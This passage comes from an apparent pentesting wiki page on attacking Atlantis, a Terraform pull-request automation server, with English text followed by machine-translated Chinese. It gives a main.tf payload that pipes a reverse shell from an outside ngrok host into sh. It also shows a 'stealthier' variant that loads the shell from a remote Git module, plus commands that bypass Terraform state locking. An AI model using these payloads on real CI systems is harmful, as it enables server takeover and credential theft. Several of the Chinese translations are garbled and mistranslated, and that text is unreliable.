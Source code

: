 ## Attacks

{% hint style="warning" %}

{％提示样式=“警告”％}
If during the exploitation you find this **error**: `Error: Error acquiring the state lock`

如果在剥削期间发现此**错误**：`错误：错误获取状态锁

You can fix it by running:

您可以通过运行来解决它：

```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Atlantis plan RCE - Config modification in new PR

### Atlantis Plan RCE-新PR中的配置修改

If you have write access over a repository you will be able to create a new branch on it and generate a PR. If you can \*\*execute `atlantis plan` \*\* (or maybe it's automatically executed) **you will be able to RCE inside the Atlantis server**.

如果您在存储库上写了访问权限，则可以在其上创建一个新分支并生成PR。 如果您可以\*\*执行`atlantis plan` \*\*（或者也许是自动执行的）**您将能够在Atlantis Server **内使用。

You can do this by making [**Atlantis load an external data source**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Just put a payload like the following in the `main.tf` file:

您可以通过制作[** atlantis加载外部数据源**]（https://registry.terraform.io/providers/hashicorp/hashicorp/external/latest/latest/data-sources/data-sources/data-source）来做到这一点。 只需在“ main.tf`文件：

```json
data "external" "example" {
  program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```

**Stealthier Attack**

**隐形攻击**

You can perform this attack even in a **stealthier way**, by following this suggestions:

通过遵循此建议，您也可以以**隐形的方式进行此攻击：

* Instead of adding the rev shell directly into the terraform file, you can **load an external resource** that contains the rev shell:

*您可以**加载包含Rev Shell的外部资源**，而不是将Rev Shell直接添加到Terraform文件中：

```javascript
module "not_rev_shell" {
  source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
